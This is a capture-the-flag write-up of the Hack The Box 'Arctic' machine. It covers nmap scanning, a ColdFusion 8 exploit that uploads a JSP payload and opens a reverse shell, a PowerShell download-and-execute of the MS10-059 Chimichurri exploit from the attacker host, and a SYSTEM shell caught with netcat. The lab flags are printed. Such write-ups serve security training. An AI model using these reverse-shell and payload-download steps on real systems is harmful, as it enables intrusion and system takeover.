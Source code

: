 # ARCTIC

## NMAP

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/arctic]
└─$ nmap 10.10.10.11 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-12 04:40 EST
Nmap scan report for 10.10.10.11
Host is up (0.32s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 23.45 seconds
                                                                                                 
┌──(kali㉿kali)-[~/Downloads/hackthebox/arctic]
└─$ nmap 10.10.10.11 -Pn -p 135,8500,49154 -A
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-12 04:43 EST
                                                                                               
┌──(kali㉿kali)-[~/Downloads/hackthebox/arctic]
└─$ nmap 10.10.10.11 -Pn -p 135,8500,49154 -A
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-12 04:43 EST
Nmap scan report for 10.10.10.11
Host is up (0.30s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## PORT 8500

![](https://github.com/Leo-2807/Writeups/blob/main/images/arctic1.png)

On doing a quick google search I found that `Adobe Cold Fusion` runs on this port.

![](https://github.com/Leo-2807/Writeups/blob/main/images/arctic2.png)

We can also see that on the `administrator` page.

![](https://github.com/Leo-2807/Writeups/blob/main/images/arctic3.png)

## EXPLOIT

Here we see that it's `ColdFusion 8` that's running and on searching for it's [exploit](https://www.exploit-db.com/exploits/50057) I find one on exploitdb.

On downloading and running the exploit we get a shell.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/arctic]
└─$ ./exploit.py

Generating a payload...
Payload size: 1496 bytes
Saved as: e84d482d6bdc461fbe553628121e2beb.jsp

Priting request...
Content-type: multipart/form-data; boundary=2cf803ec76ec41ca9d9231291ee9817c
Content-length: 1697

--2cf803ec76ec41ca9d9231291ee9817c
Content-Disposition: form-data; name="newfile"; filename="e84d482d6bdc461fbe553628121e2beb.txt"
Content-Type: text/plain

...snip...

Printing some information for debugging...
lhost: 10.10.14.2
lport: 4444
rhost: 10.10.10.11
rport: 8500
payload: e84d482d6bdc461fbe553628121e2beb.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.11] 49243







Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

From here we can grab the user.txt.

```bash
C:\Users\tolis\Desktop>type user.txt
type user.txt
02650d3a69a70780c302e146a6cb96f3
```

## PRIVESEC

I grabed the system informaion using the `systeminfo` command and used it to run `windows exploit suggester`

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/Windows-Exploit-Suggester]
└─$ ./windows-exploit-suggester.py --database 2021-11-12-mssb.xls --systeminfo systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

After some tries the one that worked was `ms10-059` [exploit](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled)


I created a powershell file and ran it to get the exploit on the target machine.

```bash
C:\ColdFusion8\runtime\bin>echo $client = New-Object System.Net.Webclient > df.psl
echo $client = New-Object System.Net.Webclient > df.psl

C:\ColdFusion8\runtime\bin>echo $url = "http://10.10.14.2:8000/Chimichurri.exe" >> df.psl
echo $url = "http://10.10.14.2:8000/Chimichurri.exe" >> df.psl

C:\ColdFusion8\runtime\bin>echo $file = "exploit.exe" >> df.psl
echo $file = "exploit.exe" >> df.psl

C:\ColdFusion8\runtime\bin>echo $client.DownloadFile($url,$file) >> df.psl
echo $client.DownloadFile($url,$file) >> df.psl

C:\ColdFusion8\runtime\bin>type df.psl
type df.psl
$client = New-Object System.Net.Webclient 
$url = "http://10.10.14.2:8000/Chimichurri.exe" 
$file = "exploit.exe" 
$client.DownloadFile($url,$file) 

C:\ColdFusion8\runtime\bin>powershell.exe -ExecurionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File df.psl
powershell.exe -ExecurionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File df.psl
```

Now we just execute the exploit to get a shell with administrator.

```bash
C:\ColdFusion8\runtime\bin>exploit.exe 10.10.14.2 9999
exploit.exe 10.10.14.2 9999
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/arctic]
└─$ nc -lvnp 9999
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:50381.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ProgramData>whoami
nt authority\system
```

And here we can grab root.txt

```bash
C:\Users\Administrator\Desktop>type root.txt
ce65ceee66b2b5ebaff07e50508ffb90
```